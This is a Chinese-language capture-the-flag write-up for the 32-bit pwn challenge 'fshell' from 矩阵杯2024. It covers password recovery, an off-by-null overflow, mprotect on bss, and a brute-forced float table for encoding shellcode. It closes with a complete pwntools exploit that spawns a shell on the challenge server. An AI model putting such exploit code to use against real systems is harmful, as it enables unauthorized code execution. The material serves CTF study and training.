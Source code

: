 ```yaml
---
title: 矩阵杯2024 - fshell
date: 2024/7/25 17:19:00
updated: 2024/7/25 17:19:00
tags:
    - float number
    - shellcode
thumbnail: /assets/matrix2024/imhex.png
excerpt: 通过暴力打表获取浮点数对应的输入，利用mprotect实现shellcode执行，成功获取shell。
---
```


{% note %}
你知道 IEEE754 吗
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x32   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |static|

## 解题思路

和刚打完的上海赛差不多

程序里貌似带了花指令，去花后是菜单题。要做其他操作，需要先login

> 32位程序静态编译还去符号，好多函数一眼都看不出来

login中需要输入用户名和密码，就是2个`strcmp`的事情，用户是`user`，
密码在输入后做凯撒密码，偏移为9，需要注意的是程序初始化时加密了`password`，偏移是8

回到主菜单，发现在输入6时触发了`mprotect`，再看decrypt的语句下面还有一串奇怪的逻辑，跟一下

```c
...
            if ((char)susch == '\0') {
                *(int *)((int)piVar1 + -0x10) = (offset % 0xc + 5) * 0xc;
                *(undefined4 *)((int)piVar1 + -0x14) = 0x804a5a1;
                sus();
            }
 ...
 void sus(int offset) {
 ...
     while ((i < 0x16 && (scan != 0))) {
        scan = scanf("%d",&val);
        calc = (float)((long double)val / (long double)offset);
        if (*(byte *)((int)&calc + 3) < 0x4b) break;
        *(float *)(FUN_08105300 + i * 4) = calc;
        i += 1;
    }
    FUN_08105300();
...
}
```

先回到`main`的逻辑上，输入3输入`offset`，进入`sus`时将`(offset % 0xc + 5) * 0xc`作为参数，
即 **60** ；然后`scanf("%20s", buf)`通过输入20个字符可以触发off-by-null覆写 `susch` 为0，
进入`sus`函数；但是函数`FUN_08105300`在bss上，不可执行，而通过输入6可以mprotect bss为可执行

可以看到`sus`又是除法写shellcode，考虑到正推准确性不足，直接打表

```c tab.c
// gcc -o tab -m32 tab.c
#include <stdio.h>

int main(void) {
    int tmp;
    for (int i = 0; i < 4096; i++) {
        char file[20];
        snprintf(file, 20, "data/table%04d", i);
        FILE *tab = fopen(file, "wb");   
        for (int j = 0; j < 1048576; j++) {
            long double x = (long double)((unsigned int)(i << 20) | j)/(long double)60;
            *(float *)&tmp = (float)x;
            fwrite(&tmp, 1, 4, tab);
        }
        fclose(tab);
    }
}
// mkdir data && ./tab
// cd data && cat * > ../table && cd .. && rm -rf data
```

`sus`中还要求输入的shellcode每4个字节中的最后一个字节需要**大于**等于0x46

然后放到ImHex里面爆搜找shellcode，将需要的shellcode的地址除以4（shellcode与4对齐）
便是随后需要输入的数字

![imhex](/assets/matrix2024/imhex.png)

先看一眼进入函数时的寄存器布局

![regs](/assets/matrix2024/regs.png)

原地构造read再把`execve("/bin/sh", 0, 0)`写上去比较好

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './fshell'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x804a209\nc')
    else:
        sh = remote('pwn-89e38f258e.challenge.xctf.org.cn', 9999, ssl=True)
    elf = ELF(EXE)

    # login first
    sh.sendlineafter(b'@@', b'1')
    sh.sendlineafter(b'username', b'user')
    sh.sendlineafter(b'password', b'ozrrvnqc')

    # mprotect to make bss executable
    sh.sendlineafter(b'@@', b'6')

    # decrypt
    sh.sendlineafter(b'@@', b'3')
    sh.sendlineafter(b'offset', b'0')
    sh.sendlineafter(b'string', b'0'*20) # overflow: off-by-null, trigger sus

    # read(0, 0x8105300, 0x50)
    nums = [0x7B33AA88 // 4,    # push eax; push 0x3; dec ebx
            0xC363B208 // 4,    # pop eax; push 0x50; dec ebx
            0xD073C400 // 4,    # pop edx; pop ecx; pop esi; dec ebx
            0x7863B7A8 // 4,    # pop esi; push 0; dec ebx
            0xF1810A00 // 4,    # pop ebx; int 0x80; dec ebx
            0]                  # exit number input
    for num in nums:
        sh.sendline(str(num).encode())
    sleep(0.5) # wait for shellcode read
    sh.sendline(b'0'*19 + asm(shellcraft.sh()))
    
    sh.clean()
    sh.interactive()
```
